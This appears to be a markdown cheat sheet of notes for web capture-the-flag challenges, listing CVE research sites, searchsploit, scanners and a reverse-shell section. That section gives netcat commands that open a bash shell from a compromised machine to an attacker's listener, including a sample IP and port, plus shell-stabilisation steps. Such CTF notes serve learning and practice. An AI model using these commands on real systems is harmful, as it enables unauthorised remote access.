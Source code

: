 # Notes related to web based CTFs

## Useful Research link

**CVE:**\

- Identification: CVE-YEAR-IDNUMBER
- [Exploit DB](https://www.exploit-db.com/)
- [National Vulnaribility Database](https://nvd.nist.gov/vuln/search)
- [CVE Metre](https://cve.mitre.org/)
- [CVE details](https://cvedetails.com)

### `searchsploit`

```bash
searchsploit <target technology name>
searchsploit fuel cms
```

## Scanners

[nikto](../../tools/Nikto/README.md)

## Enumerations

[gobuster](../../tools/Gobuster/README.MD)

## Reverse shell

[Highoncoffe Reverse shell guide](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

### `nc`

```bash
nc -lnvp <port>                   # in attacker machine
nc <ip> <port> -e /bin/bash     # in compromised machine
# nc 10.8.215.27 1234 -e /bin/bash
```

- **`python`**
  - `python -c 'import pty;pty.spawn("/bin/bash")'` in compromised machine after getting nc shell
- **`script`**
  - `/usr/bin/script -qc /bin/bash /dev/null`

## Reverse shell stabilization

[netsec](https://netsec.ws/?p=337)

### `stty`

```bash
stty raw -echo               # after backgrounding the nc shell
```

after `fg` type `reset` in the new shell

export TERM=xterm
